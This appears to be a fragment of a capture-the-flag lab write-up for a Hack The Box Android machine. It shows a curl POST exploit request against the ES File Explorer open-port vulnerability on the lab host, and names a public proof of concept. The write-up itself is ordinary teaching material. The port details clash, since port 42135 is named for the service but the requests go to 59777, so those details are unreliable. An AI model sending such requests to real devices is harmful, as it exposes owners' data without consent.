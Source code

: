 ```nmap
```

<a href="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_nmap.png"><img src="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_nmap.png"></a>

Open firefox to inspect website
```bash
firefox http://explore.htb:59777 &
```

<a href="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_001.png"><img src="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_001.png"></a>

Nothing interesting 😥, let's look for information....

On port **42135** is running **ES File Explorer**, a public vulnerability that I was already testing the PoC of [fs0c131y's Github](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln), I could see that [JSONAPI](https://github.com/alecgorge/jsonapi) is a Bukkit add-on, which allows to consume an API, maybe they can be related.

By reading the README.md from the repository, you can generate a payload to test the vulnerability.

```bash
curl --header "Content-Type: application/json" --request POST --data '{"command":"getDeviceInfo"}' http://explore.htb:59777
```

<a href="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_002.png"><img src="/assets/images/htb-machine-pilgrimage/htb-machine-pilgrimage_002.png"></a>

<a href="/assets/images/others/anthony_adams_rubbing_hands.jpg"><img src="/assets/images/others/anthony_adams_rubbing_hands.jpg"></a>
